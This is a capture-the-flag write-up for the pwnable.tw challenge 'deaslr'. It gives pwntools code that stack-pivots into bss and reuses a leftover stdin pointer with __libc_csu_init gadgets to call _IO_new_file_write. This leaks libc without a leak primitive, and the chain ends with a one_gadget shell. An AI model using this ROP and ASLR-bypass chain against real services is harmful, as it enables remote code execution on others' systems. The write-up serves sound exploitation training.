### deaslr

is a nice chall from pwnable.tw

i hesitate if i should make this write up or not, because deaslr is 500pts challenge in pwnable.tw site, also, i thing my solution is complicated compare with others... But since i often use this techniques for "no leak" challenges, i think it good to put it in this note...

binary checksec:



the binary is also simple:



one `gets` function, nothing more...

For this kind of challenges, i have a advice from senior, it quite useful for me ngl, full quotes in vietnamese:

> Thường ba cái này t quen cmnr... M éo có writable libc pointer thì pivot rồi gọi mấy hàm plt ra cho nó có pointer trên fake stack thôi... Xong r tìm gadgets add sub ptr rồi cộng trừ offset thôi...

### solution

#### stack pivot and create left over libc pointer

alr, lets go

i defined some gadget to use later:

```python
main = 0x000000000040053e
pop_rdi = 0x4005c3
pop_rsi_r15 = 0x4005c1
gets_plt = exe.plt['gets']
pop_rbp = 0x4004a0
leave_ret = 0x400554
ret = leave_ret + 1
pop_rbx_rbp_r12_r13_r14_r15 = 0x00000000004005ba
call_gadget = 0x00000000004005a9
gets_got = exe.got['gets']
```

first i just simply stack pivot immediately, to make `rsp` and `rbp` are both `bss` address value. You can easily do this

```python
# pivot things
payload = b"A" * 0x10 + p64(0x601800) + p64(main)
sl(payload)
payload = b"A" * 0x10 + p64(0x601820) + p64(main)
sl(payload)
## now botth rsp and rbp are in bss
```

then next time program `ret2main`, it will call `gets`, and leave some libc ptr after execute:

```python
payload = b"A" * 0x10 + p64(0x601a00) + p64(ret) * 6 + p64(main) 
sl(payload)
```



we can see that there is a `_IO_2_1_stdin` ptr in the address `0x6017b8`, that will be our target...

i put some `ret` intructions there, just for padding, then probally `ret2main` again, we go to next stage...

> when `ret2main` again, program continue to call `gets`, padding to make `rsp` higher up, so it wont disturb our target left over ptr

#### main rop chain

lets overview the idea:

the binary have `__libc_csu_init` function, which has very useful gadgets:



if we set up `r12` and `rbx` pricisely, we can call some libc function.

My idea is to call `_IO_new_file_write`



we use `pop_rbx_rbp_r12_r13_r14_r15` gadget to pop the `_IO_2_1_stdin` ptr to `r12` and pop the padding value to `rbx`. Calculated them to make `[r12 + rbx * 8]` will point to `_IO_new_file_write`, so that when we call `call qword ptr [r12 + rbx * 8]`, it will call `_IO_new_file_write` and give us an leak

sound straight forward (hel nah)?  to do this we need a little set up:
- we have a `stdin` ptr at `bss`
- we need a rop chain to pop that `stdin` value (right before `stdin` ptr)
- we need a rop chain to call `_IO_new_file_write` and `ret2main` to continue working (right after `stdin` ptr)
- we need a fake struct to make `_IO_new_file_write` works normally
- all of this works, must never change the left over `stdin` ptr value

we are at main function now, so i will write a main rop chain like this:

```python
# Flow: R1 -> R2 -> R3 -> R4 -> trigger -> rop: pop rbx && pop r12... -> rop: call gadget && ret2main -> last round

# R1 write rop
payload = b"B" * 0x10 + p64(0)
payload += p64(pop_rdi) + p64(0x601100) + p64(gets_plt) # prepare fake struct (to help _IO_new_file_write works normally) (R2)
payload += p64(pop_rdi) + p64(0x6017d8) + p64(gets_plt) # prepare a ROP after we claim libc value (R3)
payload += p64(pop_rdi) + p64(0x601798) + p64(gets_plt) # prepare __libc_csu_init gadgets right before libc value (R4)
payload += p64(pop_rbp) + p64(0x601798) + p64(leave_ret) # trigger (!!!!)
sl(payload)
```

this will call those set up in order i noted in script. REMEMBER, we have to set up becareful for the rop chain works harmony with `stdin` ptr

#### prepare fake struct

just simply like this:

```python
# R2 prepare fake struct
## pwndbg> x/20i _IO_file_write
payload = p8(0) * 0x70 + p32(1) + p32(2)
sl(payload)
```

why?



> `_IO_file_write (FILE *, const void *, ssize_t);`

`rdi` will point to fake struct, the function make some `cmp` with `2` (at offset `0x74`) and take `1` (at offset `0x70`) as `fileno`

#### prepare rop chain: call gadget to leak libc and ret2main

following with that

```python
payload = p64(pop_rdi) + p64(0x601100) + p64(pop_rsi_r15) + p64(gets_got) + p64(0) + p64(pop_rbp) + p64(0xfffffffffffffdcf + 1) + p64(call_gadget) # call gadget to leak libc
# set rbp = rbx + 1 to prevent jne instruction
# set rdi = fake struct, rsi = gets_got
# and call _IO_new_file_write
payload += p64(0) * 2 + p64(0x601c00) + p64(0) * 4 + p64(main) # pop rbx, rbp, r12, ... and ret2main 
sl(payload)
```

set `rdi = fake struct`, set `rsi = gets_got` to print out, `rdx` is no required since its always big value...

also set `rbp = rbx + 1` to prevent jump after we `call qword ptr [r12 + rbx * 8]` (or call `_IO_file_write`)



set some registers value for under `pop...` intructions and `ret2main` for final round

#### prepare rop chain: pop rbx and r12 and other (not important) registers

here:

```python
# R4 prepare rop chain: pop rbx and r12 and other (not important) registers
payload = b"C" * 8 + p64(pop_rbx_rbp_r12_r13_r14_r15) + p64(0xfffffffffffffdcf) # csu_init gadgets (b2)
# rbx = 0xfffffffffffffdcf
# r12 = _IO_2_1_stdin_
# qword ptr [r12 + rbx * 8] = _IO_new_file_write
sl(payload)
```

the reason `rbx` has that value:



#### trigger prepare rop chain

after full set up, our memory region will look like this:



my trigger just simple pivot the `rsp` to `0x6017a0` and starting rop from there (which is csu's pop gadget), then pop corresponding value for register and call `_IO_file_write`



give us an leak:



#### last round

then it continue to pop again, since we set up `rbp` and `rbx` so they wont loop, and ret2main, this time input, we just need to calculate onegadget offset, and ret2win to get shell:

```python
# last round: ret 2 one_gadget
libc_base = u64(p.recv(6).ljust(8, b"\x00")) - libc.symbols['gets']
lleak("libc base", libc_base)
one_gadget = libc_base + 0xf0567
payload = b"D" * 0x10 + p64(0) + p64(one_gadget)
sl(payload)
```

### summary

after done this chall, i have some words for myself:
- remember the sandwich rop (create left over pointer, then prepare before and after rop chain)
- i done similar chall before:
	https://dreamhack.io/wargame/writeups/29213

the full exploit can be found in `ex.py` in the same folder